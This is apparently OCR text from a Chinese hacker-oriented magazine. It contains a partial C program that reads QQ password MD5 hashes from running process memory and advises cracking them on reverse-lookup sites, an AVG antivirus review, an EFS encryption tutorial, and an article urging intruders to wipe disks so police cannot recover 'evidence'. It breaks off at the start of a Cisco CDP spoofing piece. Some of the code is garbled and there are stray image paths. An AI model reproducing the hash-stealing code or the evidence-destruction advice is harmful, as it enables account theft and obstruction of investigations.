    PVOID basePtr = NULL;
    BYTE md5[MD5SIZE];

    /* 获取MD5的值 */
    ReadMemoryData(pid, basePtr, &dataPtr,
                   sizeof(PVOID));
    ReadMemoryData(pid, dataPtr, md5, MD5SIZE);

    ShowHashValue(md5);
}

/* 查找所有带有索引的QQ.exe的进程，并获取其中的哈希值 */

/* 分别传递 */
/* GetHashValueByProcessID这个函数可以进一步完成 */
void GetAllHashValue()
{
    PROCESSENTRY32 processEntry = {0};

    /* 遍历所有进程 */
}
```


HANDLE hProcess;
CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (INVALID_HANDLE_VALUE)
return;
PROCESSENTRY32 pe;
sizeOf(PROCESSENTRY32);
/* 开始遍历进程 */
BOOL bResult = Process32First(hProcess, &pe);
while (bResult)
{
    /* 判断进程是否为QQ.exe */
    if (strcmp(pe.szExeFile, "QQ.exe") == 0)
    {
        /* 进入进程 */
        HANDLE hProcessID = OpenProcess(PROCESS32NEXT(hProcess, &pe));
        /* 获取进程ID */
        GetHashValueByProcessID(processEntry.th32ProcessID);
        /* 进入下个进程 */
        CloseHandle(hProcess);
    }
    bResult = Process32Next(hProcess, &pe);
}
```

```
int main()
{
    GetAllHashValue();
    system("pause");
    return 0;
}






























```

程序代码的主要思路是例举所有进程名为“QQ.exe”的进程（主要代码在函数GetAllHashValue中），打开进程后读取我们在上文中获得的指针所指向位置的数据（主要代码在函数GetHashValueByProcessID和ReadMemoryData中），最终将数据转换并显示出来（主要代码在ShowHashValue函数中）。以上代码中函数的具体作用在函数前面的注释里面已经有说明，另外里面有一些系统调用，如果不懂其详细用法可以到网上查，这里不再累述。

现在我们可以构建并执行程序，控制台界面即将显示出所有正在运行的QQ的密码哈希值。我们在控制台界面点击右键，单击标记，然后选中MD5值的那段文本，再右键点击，点击“编辑→复制”，就可以把文本复制下来了。拿到这串文本，直接拿去MD5破解网站吧，如果密码不够强大能马上逆向出来，比如前面示例中的那串MD5值可以逆向得到明文“admin”。
## 一、软件的安装操作

继不久以前小红伞登陆中国以后，另一款知名的杀毒软件AVG，也发布了其全新的中文网站和中文版。AVG之所以在国际上有那么高的知名度，除了其强大的系统防御功能以外，最重要的就是其针对普通用户是完全免费的。现在有这份免费的午餐，我们也就来好好的尝一尝。

AVG为用户提供了“标准安装”和“自定义安装”两种方式，我这里选择第二种方式来进行安装操作。在软件组件的安装界面里面，可以根据自己的需要选择组件（如图1）。这里不仅包括常见的系统防护和病毒扫描组件，还包括邮件扫描和Office文档扫描的组件。点击“下一步”按钮继续进行安装，发现软件会帮忙测试浏览器并添加一个工具条，从而保护用户上网浏览的安全（如图2）。与此同时我还发现，AVG希望将搜索引擎改成自己的，看来自AVG深入人心，随俗的这个道理啊。AVG安装完成以后，软件首先会自动升级病毒库到最新版本。接下来会要求用户重新启动计算机。

## 安全第一

求用户进行基本的设置，比如自动更新的频率和定时的扫描的时间。

组件上单击右键，在弹出的菜单命令就可以打开一个窗口，这样就可以详细的查看到该组件的具体信息。一旦实时监控发现有病毒文件，就会弹出一个提示窗口来提醒用户（如图5）。
设定完成以后软件会弹出一个窗口，要求用户进行优化扫描的操作。马上点击窗口中的“立即优化扫描”按钮，这时软件就会对整个磁盘文件进行分析扫描（如图3）。这一步骤并不是对系统中的病毒进行扫描，而是从系统中找出那些可以不需要扫描的可信文件，这样在进行病毒分析的时候就可以跳过这些文件，从而减少系统病毒扫描所需要的时间。
## 二、软件的基本操作

现在我们就可以看到AVG的操作界面了，总的来说AVG的操作界面非常的简洁实用。从这里我们也看到AVG软件的与众不同，因为其它的杀毒软件都是通过鼠标右键，来开启或关闭某些实时监控的各类项目，现在则需要在软件的操作界面里进行选择。AVG实时监控的项目包括，病毒防范、恶意软件防范、电子邮件防范等（如图4）。

如果要想进行病毒扫描的话，首先需要单击窗口左侧的“计算机扫描器”，这时可以在窗口中选择扫描整个计算机或特定目录（如图6）。根据自己的需要点击扫描的选项，这样AVG就开始对操作系统进行扫描。在软件进行扫描的时候，我发现软件除了对内存进行扫描以外，还会对注册表信息进行扫描，最后才是对磁盘文件进行扫描操作（如图7）。无论是发现病毒文件还是注册表被篡改，AVG都可以对病毒文件进行删除并对注册表进行修复。由于AVG是一款免费的软件，所以有的时候会弹出一些广告信息，点击窗口左下方的“隐藏通知”按钮就可以进行隐藏。不过要想更好的进行系统防御，还需进行一些配置。点击“工具”菜单中的“高级设置”命令，在左边定义设置。

侧列表中选择“扫描整个计算机”这项。我们可以看到AVG默认只对特定的文件进行扫描，但是我还是觉得最好选择“所有文件类型”这个选项为好。另外，AVG软件是自带有移动设备防御功能的，但是软件默认并没有开启这个防御功能。所以现在需要点击窗口左侧的“可移动设备扫描”，然后在右侧窗口里面选择“启用可移动设备扫描”选项就可以呢（如图8）。
图7
图8

## 三、网页防范的操作

还记得前面安装了一个浏览器插件吗，现在马上运行系统中的IE浏览器，我们就可以看到AVG Security Toolbar安装成功的提示。从现在起一旦发现，漏洞利用、被黑站点、网络钓鱼等威胁，就会通过弹出提示窗口来告知用户注意。另外这个浏览器插件，还可以对搜索引擎的结果进行验证，其中包括常见的百度、雅虎以及国外的一些搜索引擎（如图9）。然后通过不同的颜色来告诉用户链接的安全性，比如绿色代表安全、红色代表危险、黄色代表可疑。
图9
图10

我们知道很多用户系统被病毒破坏，都是因为对安全信息不了解所造成的。而通过AVG的浏览器插件，在收藏栏就收录了大量最新的安全信息，用户只需要点击“AVG信息”就可以了解到。如果要想进行其它的设置操作，可以点击“AVG”图标在菜单中选择“选项”，然后在弹出的窗口里面进行某个选项的设置。浏览器插件上面除了AVG自身的功能外，还可以让用户自定义添加一些功能按钮。现在点击窗口中的“有用的按钮”选项，可以选择计算器、记事本、媒体播放器等等（如图10）。

OK。对AVG功能的介绍就到这里。大家要是有兴趣，赶紧去试试吧。

# EFS让安全无懈可击　黎歌

自从“艳照门”事件之后，人们的数据安全的意识有了很大的提高，开始尝试一些所谓的文件加密软件，但那些软件的安全性并不是很高，很容易就破解了。那有没有一个好的文件加密软件呢？答案是肯定的，EFS就是一个不错的选择。

EFS的全称是Encryptiog File System，翻译过来就是加密文件系统。这是系统内置的功能，可以将存放在NTFS格式的磁盘中的文件，通过操作系统加密保存，在一定的程度上保证了数据的安全性。

## 一、使用EFS之前的准备

因为EFS只能给NTFS格式的磁盘中存放的文件进行加密，由此我们需要将非NTFS格式的磁盘进行转换。其实很简单，只需要在命令提示符中输入“convert X:/fs:NTFS”就可以了（其中的‘X’换成我们要转换的盘符）。可能有的小菜会担心自己的数据会丢失，大可不必担心，这个是无损转换，不会丢失任何数据。

## 二、EFS的原理

当我们使用EFS时，系统会分配给我们一个证书，包括有两把密钥，一把是公开密钥，另一个是私有密钥。当我们要加密某个文件时，系统会随机产生一个密钥，然后用这个密钥进行对称加密文件。接着系统会再之前分配给我们的公开密钥将随机生成的密钥进行加密，然后储存在文件头。当我们要打开EFS加密过的文件时，系统用分配给我们的私有密钥对文件头进行解密，就可以得到系统加密该文件时的随机密钥，再用得到的密钥来解密。

## 三、EFS的使用

好了，听了这么多的理论，我们该动动手了。在我们要加密的文件上点击右键，选择“属性”。在弹出的窗口上切换到“常规”选项卡，在右下角我们可以找到名为“高级（D）…”的按钮。点击这个按钮，会弹出“高级属性”窗口，勾选上“加密内容以保护数据（E）”，如图1。点击两次“确定”，眼尖的叉子就会发现刚才加密的文件变成绿色的啦。
“这个文件还不是可以正常打开吗？哪里加密了？”一小菜说道。EFS并不是那种要打开需要密码的那种。现在

我们来换一个用户来打开看看，就会看到如图2所示的提示。
“那我们想让一个特定的用户也可以访问，要怎么做呢？”又一个小菜说。很简单，回到“高级属性”窗口，点击名为“详细信息”的按钮，在弹出的窗口，再点击名为“添加（A）”的按钮，在出现的窗口的上面会显示已有证书的用户。在出现的窗口上选择我们要共享的用户，在点击“添加”按钮，最后点“确定”即可，如图3。没有取得证书的用户是无法和我们一起访问加密过的文件的，要使特定用户取得证书，可以用该用户加密一个文件即可。
## 四、备份与恢复

有时候，电脑总会出现点问题，例如系统奔溃了或配置丢失，那我们用EFS加密过的文件都会打不开。所以我们应该在启用EFS加密时就做好证书的备份，在出现意外时以便恢复。

打开控制台（在运行中输入“mmc”），依次展开菜单“文件”→“添加/删除管理单位”，点击“添加”按钮，在弹出的窗口中找到“证书”并添加，如图4。如果我们正在用的用户是管理员的话会弹出一个窗口询问我们管理单位为那个账户管理证书，如图5。我们选择“我的用户帐户”。然后在左侧的控制台树中，依次展开“证书-当前用户”→“个人”→“证书”，再在右侧选择自己的证书并点击右键，选择“所有任务”→“导出”，如图6。在出来的

窗口一路NEXT就行了，不过在询问是否导出私钥时，要选择导出密钥。
图4
图5

导出的密钥一定要保存好，有条件的可以弄个U盘，把密钥放在U盘里，再把U盘上个十几把锁。呵呵，开个玩笑，总之要保存好就是了。
图6

当我们需要恢复的时候，需要先将证书分解，这时候需要用上我写的一个小工具——EFS操作工具（也可以在命令行完成，命令在后面会说，这个工具和其源代码都收录在光盘里）。打开工具，如图7，把文件拖到“分解证书”标签右边的编辑框里，会出现一个窗口要我们输入密码，这里的密码就是我们导出密钥时设置的密码，如图8。当我们输

入正确的密码后，会生成两个文件，一个是PFX文件，一个是CER文件。
图7
图8

打开PFX文件，一直NEXT就可以导入了，不过在选择证书存储区的时候，我们需要选择“所有的证书放入下列存储区”单选项，再将存储区设置为“个人”。CER文件也差不多，不过就是打开后，再按下“安装证书”就是了。

## 五、EFS的命令行用法

前面提到EFS命令行用法，其实很简单，下表就是EFS操作的常用命令，想详细的命令的话，在命令行中执行：“cipher /”就可以看到了如图9。

| | | |
|---|---|---|
| 加密 | cipher /a /e 路径 | 加密文件 |
| | cipher /a /e /s:路径 | 加密文件夹 |
| 解密 | cipher /a /d 路径 | 解密文件 |
| | cipher /d /e /s:路径 | 解密文件夹 |
| 分解证书 | cipher /r: 路径 | 分解证书 |

图9

（本文所涉及的相关附件光盘已收录）

## 安全第一
### 人人学会数据保密

曾记得在2003年左右的入侵文章中比较流行3389端口“擦除磁盘”登录，而且大多数的作者都不忘在文章中提到“擦pp”、“擦脚印”——清除肉鸡上的登录日志，防止被JC叔叔请去喝免费茶。但近几年的入侵文章似乎对这项“扫尾”工作淡了许多，或许是都不屑于谈了，或许是大家都艺高人胆大了，不过建议大家还是小心一些的好，没看到过新闻的报道画面上“作案”机器被封作入侵证据么？在此我到底想说什么呢？那就是把自己的“阵地”务必要把守好，如果真有那么一天要到来的话，只要有几分钟的时间你就可以将“罪证”毁于一旦！

明白意思了吗？就是把自己机器上的相关文件甚至是整个分区都清除得干干净净，将一切的一切都化为“000”或者“111”二进制。说到这儿肯定有人会马上想到很多安全工具中所提供的“粉碎文件”功能，比如360安全卫士中的“功能大全”组件中有个“文件粉碎机”，只要先点击“添加文件”按钮选中待粉碎的文件，然后点击“粉碎文件”按钮（甚至还可以提前选中“阻止被粉碎文件再次生成”选项）并进行一次确认就能将文件粉碎（如图1）。虽然这是360用来对付木马、病毒文件的“狼招儿”，但对于我们“销毁罪证”也同样有效。
不过，如果你“罪恶滔天”以至于那些“罪证”都得用车车来拉的话，那就别一个文件一个文件地添加再粉碎了，要……什么，全盘格式化？有些道理，不过不知道你有没有听说过Norton Utility的反格式化或是Easy Recovery数据恢复软件？甚至大部分专业的数据恢复公司内部都有自己的独门绝技，可不要将宝押在格式化上！在此向大家推荐一个专业的免费磁盘擦除软件，名字叫“MiniTool Drive Wipe”。

运行“minitool-drivewipe.exe”进行程序的安装，过程是很简单的，直接“Next”、设置路径和“I accept the agreement”、“Install”即可。之后，运行MiniTool Drive Wipe，主界面上有两个选择：“Wipe Partition”和“Wipe Disk”（如图2），前者意思是“擦除分区”，后者意思是“擦除磁盘”。
以“Wipe Partition”为例，点击后会罗列出本地计算机硬盘的所有分区图，我们只须先选中待擦除的分区后再点“Next”按钮，MiniTool Drive Wipe会弹出警告（Warning）提示框：“All the data on the partition will be destroyed. Are you sure that you want to continue?”（如图3），意思是“这个分区上的所有数据都将被毁掉，你确实要继续吗？”。如果真的确认的话（一定要想好啊，这个可真的是没地儿吃后悔药！），点击“Yes”按钮之后，MiniTool Drive Wipe会再次提示我们“Wiping drive will remove every sectors of data on the disk. Data once wiped can not be recovered by any data recovery solutions.”（“擦除分区操作将消除该磁盘分区上的每一扇区的数据，数据一旦被擦除，将无法通过任何数据恢复解决方案恢复。”）。
除就不能被任何数据恢复解决方法所恢复。”）。
图4

下面则是列举出了五种数据销毁方式可供选择，分别是“Fill Sectors with Zero(Quick)”、“Fill Sectors with One(Quick)”、“Fill Sectors with Zero & One(Slow)”、“DoD 5220.22-M(3 passes) (Very Slow)”和“DoD 5220.28-STD(7 passes) (Very Slow)”（如图4），汉语意思分别是“用0填充扇区（快）”、“用1填充扇区（快）”、“用0和1填充扇区（慢）”、“用符合美国国防部DoD 5220.22中等标准（3次擦除）（很慢）”和“用符合美国国防部DoD 5220.28标准（7次擦除）（很慢）”。此时就看你自己的了，如果时间很充裕的话你可以选择后三种之一（效果应该更安全），如果想提高速度的话就选择前两种之一（估计对付国内的JC叔叔应该也没什么问题）。在此就以默认的第一种“Fill Sectors with Zero(Quick)”为例，点击

下方的“Finish”按钮进行一个容量为1GB的U盘数据擦除实验。晕，MiniTool Drive Wipe竟然再一次警告我们：“现在就开始擦除？”，真是够小心的，呵呵。点击“Yes”按钮之后，终于开始了（如图5）。
图5

大约五六分钟之后，MiniTool Drive Wipe提示我们“Wipe drive successfully.”——擦除成功！点击“OK”按钮之后返回MiniTool Drive Wipe，然后关闭它，最后再检验一下擦除效果，真的没有了，你懂的。当然，如果你还是不放心的话，现在可以对这个分区进行若干次的格式化操作了，估计这样做的话就是神仙来了也找不到任何蛛丝马迹了。

（本文所涉及的“minitool-drivewipe软件”已收录本期光盘中）

# Cisco CDP攻击分析及防护

李晨光

熟悉Cisco的朋友都知道CDP协议是思科公司独特的发现协议，在思科公司出产的所有路由器和交换机里面都能运行此协议，一台运行CDP的路由器或交换机能够得知与它直接相连的邻居端口和主机名信息。这时候黑客就会利用CDP欺骗攻击会让网络管理员措手不及。有下面给大家说明两种目标可能遭到CDP欺骗攻击及应对办法。

## 一、两种CDP欺骗类型

